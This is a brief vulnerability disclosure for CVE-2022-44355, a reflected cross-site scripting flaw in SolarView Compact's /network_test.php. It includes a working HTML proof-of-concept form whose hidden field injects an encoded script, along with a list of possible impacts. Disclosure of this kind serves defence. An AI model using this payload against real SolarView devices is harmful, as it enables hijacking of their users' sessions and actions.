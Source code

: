 # Cross-site Scripting (XSS) in all SolarView Compact prior to v7.00

## Description
CVE-2022-44355
Cross-site Scripting (XSS) - Reflected in all SolarView Compact up to v7.0 via crafted POST request to /network_test.php

## POC

When someone opens this html file, or we can add it into our website, XSS will execute.
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://{HOST}/network_test.php" method="POST">
      <input type="hidden" name="host" value="127&#46;0&#46;0&#46;1" />
      <input type="hidden" name="command" value="test&apos;&lt;script&gt;alert&#40;'XSS_By_Strik3r'&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## Impact
The consequence of an XSS attack is the same regardless of whether it is stored or reflected (or DOM Based). The difference is in how the payload arrives at the server. If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:

- Perform any action within the application that the user can perform.
- View any information that the user is able to view.
- Modify any information that the user is able to modify.
- Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.
